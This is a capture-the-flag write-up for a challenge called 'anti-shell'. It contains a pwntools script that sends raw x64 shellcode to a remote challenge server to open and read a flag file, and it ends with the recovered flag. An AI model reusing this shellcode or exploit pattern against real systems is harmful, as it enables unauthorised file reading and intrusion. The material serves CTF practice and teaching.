 # Challenge: anti-shell
## Description

> "Just open, write, read"

## Source
> anti_shell
## Solution
[x64 Linux Polymorphic read file shellcode](https://zerosum0x0.blogspot.com/2014/12/x64-linux-polymorphic-read-file.html)
```
from  pwn  import *

p = remote("128.199.219.160", 6031)
#p = process("./anti_shell")

shellcode = b"\x31\xf6\xf7\xe6\x52\x48\xb9\x66\x6C\x61\x67\x2E\x74\x78\x74\x51\x48\xb9\x65\x2F\x62\x6B\x73\x65\x63\x2F\x51\x48\xb9\x2F\x2F\x2F\x2F\x2F\x68\x6F\x6D\x51\x54\x5f\xb0\x02\x0f\x05\x50\x5f\x54\x5e\x52\x52\x52\x52\x58\x66\xba\x99\x09\x0f\x05\x5f\xff\xc7\x50\x5a\x58\xff\xc0\x0f\x05\x58\xb0\x3c\x0f\x05"
print(shellcode)

p.sendlineafter(b"\n", shellcode)
p.interactive()
```
> BKSEC{0p3n_r3@d_Wr1t3_she11c0d3_n0t_bAd_r1gHt}
